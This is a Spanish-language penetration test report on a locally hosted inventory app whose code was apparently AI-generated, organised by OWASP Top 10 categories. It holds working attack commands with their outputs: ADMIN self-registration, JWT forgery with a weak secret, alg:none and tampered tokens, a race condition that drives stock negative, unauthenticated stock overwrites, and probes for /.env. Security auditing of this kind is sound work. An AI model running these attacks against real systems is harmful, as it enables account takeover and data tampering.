

# Pruebas de penetración manuales — backend + frontend completo

**Herramientas:** Burp Suite Community (proxy interceptor, `127.0.0.1:8080`, proyecto temporal) + curl + Node.js (`jsonwebtoken` 9.0.3)
**Commit auditado:** `a97799a2714304c82c5d88e28220d5ce04154904` (`main`)
**Target:** `http://localhost:3000` (backend), `http://localhost:5173` (frontend, código verificado directamente para S6)
**Objetivo:** Cubrir el OWASP Top 10 (A01-A08) sobre el conjunto completo, reconfirmar S1-S6
y explotar S3, que no se consiguió en la ronda básica.

---

## Metodología

A diferencia de la ronda básica, todas las peticiones pasan por **Burp Suite Community como
proxy** (`curl -x http://127.0.0.1:8080 ...`, "Intercept" desactivado), así que el tráfico queda
registrado en Proxy → HTTP History. Para las pruebas se registró un usuario OPERATOR
(`burp_operator@test.com`), del que salen `$OP_TOKEN` y `$OP_ID`.



En la captura: `GET /categories` sin token → `200` (S5), `PUT /users/:id` con token OPERATOR →
`403`, `GET /users` → `200` (S7) y las sondas de debug → `404` (A05).

---

## A01 — Broken Access Control

### Reconfirmación S5 — rutas sin autenticación

```bash
curl -s -x http://127.0.0.1:8080 http://localhost:3000/categories -k -o /dev/null -w "HTTP %{http_code}\n"
# → HTTP 200 (sin cabecera Authorization)
```
Sin cambios respecto a la ronda básica.

### Reconfirmación S1 — escalada de privilegios en el registro

```
POST /auth/register HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"name":"Burp Evil Admin","email":"burp_eviladmin@test.com",
 "password":"password123","role":"ADMIN"}

HTTP/1.1 201 Created
Content-Type: application/json

{"success":true,"data":{"id":"de3bb206-9d34-41e3-af6b-fcb583ae2c72",
 "name":"Burp Evil Admin","email":"burp_eviladmin@test.com",
 "role":"ADMIN","createdAt":"2026-07-13T07:30:21.114Z"},
 "error":null,"message":"User registered"}
```
Sin cambios respecto a la ronda básica: el servidor crea la cuenta con rol ADMIN.

### Control por rol en `PUT /users/:id`

`PUT /users/:id` exige rol ADMIN vía `authorize('ADMIN')`. Probado con un token OPERATOR
intentando auto-promoverse:
```bash
curl -s -x http://127.0.0.1:8080 -X PUT http://localhost:3000/users/$OP_ID \
  -H "Authorization: Bearer $OP_TOKEN" -H "Content-Type: application/json" \
  -d '{"role":"ADMIN"}'
# → {"success":false,"data":null,"error":"Insufficient permissions","message":"Forbidden"}
```
Rechazado (HTTP 403). El control por rol funciona en la única ruta donde lo pedía el prompt.

### S7 (nuevo) — Enumeración completa de usuarios por cualquier rol autenticado

**OWASP:** A01:2021 — Broken Access Control
**Fichero origen:** `src/routes/user.routes.js`

`GET /users` solo exige `authenticate` (`router.use(authenticate)`), sin `authorize('ADMIN')`.
Cualquier usuario autenticado, incluido un OPERATOR recién registrado, lista nombre, email, rol
e ID de todas las cuentas.

**Origen:** el modelo siguió el prompt. `prompts/08_users.md` da al operador acceso de lectura
y solo marca `PUT /users/:id` como "admin only".

```bash
curl -s -x http://127.0.0.1:8080 http://localhost:3000/users -H "Authorization: Bearer $OP_TOKEN"
# → HTTP 200, lista completa de 16 usuarios (incluye cuentas ADMIN con email real)
```

**Impacto:** expone los datos personales y qué cuentas son ADMIN. `GET /users/:id` tiene el
mismo problema (mismo middleware).

### Reconfirmación S6 — JWT en localStorage

```javascript
// frontend/src/api/auth.js:5
localStorage.setItem('token', data.data.token);
```
El JWT se guarda en `localStorage`, accesible a cualquier script de la página (robable con
XSS). Lo pedía el `[CONTEXT]` de los prompts de frontend. Va en A01 porque OWASP incluye ahí
el almacenamiento inseguro de información sensible (CWE-922).

---

## A02 — Cryptographic Failures

### Algoritmo JWT y exposición de datos sensibles

```bash
echo "$OP_TOKEN" | cut -d. -f1 | base64 -d   # → {"alg":"HS256","typ":"JWT"}
echo "$OP_TOKEN" | cut -d. -f2 | base64 -d   # → {"id":"...","role":"OPERATOR","name":"...","iat":...,"exp":...}
```
HS256, y el payload solo lleva id, rol y nombre. Ningún endpoint devuelve el hash de la
contraseña. Sin hallazgos.

### Reconfirmación S2 — secreto JWT débil

```bash
node -e "
const jwt = require('jsonwebtoken');
const token = jwt.sign({id:'00000000-0000-0000-0000-000000000000', role:'ADMIN', name:'Forged S2'}, 'cambiar_por_secreto_seguro', {expiresIn:'1h'});
console.log(token);
"
curl -s -x http://127.0.0.1:8080 http://localhost:3000/users -H "Authorization: Bearer <token forjado>"
# → HTTP 200, lista completa de usuarios
```
El secreto débil del `.env` sigue permitiendo forjar tokens con cualquier rol. Sin cambios.

---

## A03 — Injection

No hay filtros por query string, así que la única superficie son los campos del body, ya
cubiertos por ZAP (`docs/pentesting_zap_completo.md`, ZAP-C03, falso positivo: Prisma
parametriza las consultas). Se comprueba a mano con una comilla:
```bash
curl -s -x http://127.0.0.1:8080 -X POST http://localhost:3000/categories \
  -H "Content-Type: application/json" -d "{\"name\":\"Injection' OR '1'='1\"}"
# → 201 Created, el string se guarda literal como nombre de categoría, sin ejecutarse como SQL
```
Sin hallazgos.

---

## A04 — Insecure Design

### S3 — Race condition TOCTOU: explotada por primera vez en esta ronda

8 peticiones `OUT` de 3 unidades en paralelo (subshells en background + `wait`) sobre un
producto con `currentStock=10`, donde solo caben 3. Una de ellas:

```bash
curl -s -x http://127.0.0.1:8080 -X POST http://localhost:3000/movements \
  -H "Authorization: Bearer $OP_TOKEN" -H "Content-Type: application/json" \
  -d "{\"productId\":\"$PROD_ID\",\"quantity\":3,\"type\":\"OUT\",\"notes\":\"race-1\"}"
```

**Resultado:** 6 de las 8 devolvieron 201 y solo 2 fueron rechazadas por "Insufficient stock".
Estado final consultado con `GET /products/$PROD_ID`:

```
stock inicial: 10
6 × OUT de 3 unidades aceptadas = 18 unidades descontadas
stock final: -8   ("currentStock":-8 en la respuesta de GET /products/:id)
```

### S8 (nuevo) — Bypass completo del flujo de negocio de inventario

**OWASP:** A04:2021 — Insecure Design
**Fichero origen:** `src/routes/product.routes.js`, `src/services/product.service.js`

`PUT /products/:id` permite cambiar `currentStock` sin pasar por `/movements`, que es lo que
deja registro, y sin token (S5):

```bash
curl -s -x http://127.0.0.1:8080 -X PUT http://localhost:3000/products/$PROD_ID \
  -H "Content-Type: application/json" -d '{"currentStock": 999999}'
# → 200 OK, currentStock actualizado a 999999

curl -s -x http://127.0.0.1:8080 http://localhost:3000/movements/product/$PROD_ID \
  -H "Authorization: Bearer $OP_TOKEN"
# → el historial de movimientos NO incluye ningún registro del salto a 999999
```

**Impacto:** cualquiera, sin token, puede fijar el stock sin dejar rastro en el historial.

---

## A05 — Security Misconfiguration

Cabeceras HTTP (Helmet activo, ya visto en la revisión manual) y CORS (S4, sin cambios):

```bash
curl -s -x http://127.0.0.1:8080 -I http://localhost:3000/health
```
```
Content-Security-Policy: default-src 'self'; ...
Cross-Origin-Opener-Policy: same-origin
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Access-Control-Allow-Origin: *          ← S4, sin cambios
```

Sondeo de endpoints de debug/documentación habitualmente olvidados en despliegues:
```bash
for ep in /debug /api-docs /swagger /.env /admin; do
  curl -s -x http://127.0.0.1:8080 -o /dev/null -w "$ep -> %{http_code}\n" http://localhost:3000$ep
done
# /debug -> 404   /api-docs -> 404   /swagger -> 404   /.env -> 404   /admin -> 404
```
Sin hallazgos.

---

## A07 — Authentication Failures

### S9 (nuevo) — Ausencia total de rate limiting en login

**OWASP:** A07:2021 — Identification and Authentication Failures
**Fichero origen:** `src/app.js` / `src/routes/auth.routes.js`

**Origen:** decisión del modelo. El prompt no pedía explícitamente limitar los intentos de
login, y el modelo no lo añadió por su cuenta.

Se repitió 10 veces el mismo intento de login con contraseña incorrecta:

```bash
curl -s -x http://127.0.0.1:8080 -o /dev/null -w "HTTP %{http_code}\n" \
  -X POST http://localhost:3000/auth/login -H "Content-Type: application/json" \
  -d '{"email":"burp_operator@test.com","password":"wrongpass"}'
```
**Resultado:** 10/10 intentos devuelven 401 sin retraso ni bloqueo. No hay ningún limitador
en el proyecto (`grep -r "rateLimit\|express-rate-limit" src/` sin resultados).

### Expiración de tokens

Los tokens expiran a las 24 h (`'1d'` fijo en `auth.service.js`, Q2). No es una
vulnerabilidad.

---

## A08 — Software and Data Integrity Failures

### Ataque `alg:none` — no explotable

```bash
node -e "
function b64url(o){return Buffer.from(JSON.stringify(o)).toString('base64').replace(/\+/g,'-').replace(/\//g,'_').replace(/=+\$/,'');}
console.log(b64url({alg:'none',typ:'JWT'})+'.'+b64url({id:'0','role':'ADMIN'})+'.');
"
curl -s -x http://127.0.0.1:8080 http://localhost:3000/users -H "Authorization: Bearer <token alg:none>"
# → {"success":false,"data":null,"error":"Invalid token","message":"Unauthorized"}  HTTP 401
```

### Token con payload manipulado (firma no recalculada) — no explotable

```bash
# mismo token válido de $OP_TOKEN pero con "role":"OPERATOR" cambiado a "role":"ADMIN"
# a mano en el payload, sin volver a firmar
curl -s -x http://127.0.0.1:8080 http://localhost:3000/users -H "Authorization: Bearer <token manipulado>"
# → {"success":false,"data":null,"error":"Invalid token","message":"Unauthorized"}  HTTP 401
```

**Análisis:** `jwt.verify()` de `jsonwebtoken` 9.0.3 (`src/middlewares/auth.middleware.js:18`)
rechaza `alg:none` y valida la firma por defecto. **Es una protección de la librería, no del
código generado:** el middleware se creó a mano (C3) y no fija `algorithms: ['HS256']`.

---

## Resumen de pruebas manuales — ronda completa

| ID | Vulnerabilidad | OWASP | Explotada | Cambio vs. ronda básica |
|----|---------------|-------|-----------|--------------------------|
| S1 | Escalada de privilegios en registro | A01 | Sí | Reconfirmada, sin cambios |
| S2 | Secreto JWT débil | A02 | Sí | Reconfirmada, sin cambios |
| S3 | Race condition TOCTOU | A04 | **Sí (nuevo en esta ronda)** | Antes solo identificada, ahora explotada: stock final -8 |
| S4 | CORS abierto | A05 | Sí | Reconfirmada, sin cambios |
| S5 | Rutas sin autenticación | A01 | Sí | Reconfirmada, sin cambios |
| S6 | JWT en localStorage | A01 | Sí (código) | Reconfirmada, sin cambios |
| S7 | Enumeración de usuarios (`GET /users` sin `authorize`) | A01 | Sí | **Nuevo** |
| S8 | Bypass del flujo de auditoría de stock (`PUT /products/:id`) | A04 | Sí | **Nuevo** |
| S9 | Sin rate limiting en login | A07 | Sí | **Nuevo** |
| — | Ataque `alg:none` JWT | A08 | No — correctamente mitigado | **Nuevo test, resultado negativo** |
| — | Payload JWT manipulado sin resignar | A08 | No — correctamente mitigado | **Nuevo test, resultado negativo** |

**Total: 9 vulnerabilidades confirmadas** (S1-S9). S7, S8 y S9 salen de ampliar las pruebas,
no de cambios en el código desde la ronda básica.
